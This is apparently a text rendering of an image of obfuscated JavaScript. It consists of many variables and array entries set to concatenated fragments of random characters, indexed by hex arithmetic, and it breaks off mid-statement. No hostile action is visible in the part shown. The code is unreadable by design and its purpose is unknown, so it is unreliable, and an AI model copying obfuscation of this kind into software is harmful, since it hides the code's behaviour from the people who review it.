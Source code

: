 a0d4='.r'+'7U'+'uG'+'tF'+'3';_dmMyer2S='F*'+'m*'+'On'+'AS'+'*%'+'b',a0bk[0x1*0x10b1+-0x533*0x2+0x1*-0x62b]='zR'+'1u'+'hx'+'7';var a0d5='+&'+'%2'+'rf'+'z';_MXSUQ3H4='sW'+'Y/'+'23'+'[S'+'kl'+'8y'+'My'+'V',_vuB90BEL='Cw'+'c0'+'v&'+'p1'+'lp'+'E',_JD5xzVN='UN'+'d&'+'QY'+'F+',_slmyIMS='r@'+'5p'+'Z!'+'Ut'+'uI'+'qM'+'jx',a0bg['yL'+'Mf'+'J']='vL'+'qL'+'Ka'+'ET'+'A',_4QGg8c='4g'+'!V'+'u0'+'g6'+'+j'+'rx'+'fs'+'s',_4760DPpS='0O'+'Rn'+'Kj'+'bq'+'Zz'+'3F'+'Xd'+'o',_V6v7M4bHDN='Q9'+'X%'+'^V'+'!('+'%z'+'X1',_UFSjtRz='ly'+'y9'+'VA'+'G1'+')C'+'_l'+'E',_kw6rmwKr='z0'+'k@'+'nN'+'o-'+'X#'+'#q'+'i_'+'S',a0bk[-0x94a+-0x2*0x4d8+0x332*0x6]='tK'+'Mw'+'mf';var a0d6='RH'+'(^'+'!)'+'CQ'+'Nj'+'E('+'5c';_LREcw9='*e'+'dO'+'b6'+'bj'+'s';var a0d7='%A'+'j5'+')?'+'T6'+'O8'+'t!',a0d8='eU'+'^p'+'8-'+'V7'+'%b'+'-';a0bk[-0x3b*0x1f+0x540*0x2+-0x33d*0x1]='iW'+'sY'+'xl'+'gU'+'N';var a0d9='M%'+'A4'+'Ub'+'*G'+'R',a0da='])'+']%'+'U!'+'*f'+'HR'+'4I';_XeXEEYSZN='Db'+'&t'+'PM'+'Yb',_7faHOScfT='%N'+'^7'+'*('+'kL'+'0S'+'HR'+')c',a0bg['Gz'+'tj'+'eB'+'bv'+'RA']='hq'+'AR'+'Ej'+'AS'+'L',_idZile='J5'+'3='+'Ho'+'X';var a0db='@5'+'t@'+'CT'+'+9'+'3d'+'fY'+'D&'+'8';a0bg['zA'+'kd'+'hq'+'PD'+'B']='bq'+'3L'+'vL'+'qL'+'vM'+'KB'+'q';var a0dc='Fz'+'EH'+'_v'+'sp'+'Xt'+'UG'+'%I',a0dd='aA'+'15'+'A*'+'sb'+'4q'+'2P'+'&!'+'UR';_kzEDU7gX50='w0'+'Ly'+'5m'+'cx'+'IT'+'bN'+'b]'+'ML',_81tkxXrS='qX'+'9('+'rg'+'[f'+'Sg'+'r',a0bk[0x6e*0x6+0x5ae+-0xe3*0x9]='rz'+'Tw'+'wi'+'5',_TNPnAuY7r='2-'+'2#'+'7Q'+']B'+'O';var a0de='X]'+'wU'+'LG'+'fy';_LUzY3='9p'+'p['+'E1'+'3m'+'2I',a0be[-0xfd7+-0x689+0xb31*0x2]='60',_SERJ1cGX='jn'+'Mp'+'ly'+'BG',_KFvsc='OG'+')B'+'Pf'+'Sq',a0bk[0x2182+0x1cec*-0x1+-0x471]='KV'+'Jc'+'d',_klrGYJSIvX='uA'+'4v'+'tI'+'&*'+'?D'+'j',_mk8pfq='uk'+'9J'+'*_'+'^8'+'hs'+'*';var a0df='9+'+'Bx'+'Zn'+'gV'+'T4';_2XCELl='aM'+'bF'+'c0'+'ex'+'.m'+'=U'+'#';var a0dg='vH'+')f'+'s8'+'vm'+'!4'+'h]'+'Go'+'T',a0dh='pn'+'u2'+'lO',a0di='1K'+'nJ'+'4N'+'rU'+'KA'+'0v'+'m#';_yvyhil8T='1*'+'*u'+'Ne'+'^h'+'t]',_2XmaV4eQm='J5'+'Su'+'w_'+'vB'+'PU'+'.8',_7i5n7xUVvD='Kc'+'72'+'DD'+'L_'+'Z',a0bg['Nh'+'BP'+'Xx']='Iq'+'hm'+'iK'+'SL'+'qv'+'q0'+'G',_VxwETQr='?*'+'n*'+'n-'+'o6'+'+#'+'Vx'+'Ti';var a0dj='*L'+'pg'+'Rs'+'^3'+'m?'+'DD'+'rX';_XazwQzQ='I7'+')l'+'?V'+'y-'+'#x'+'%';var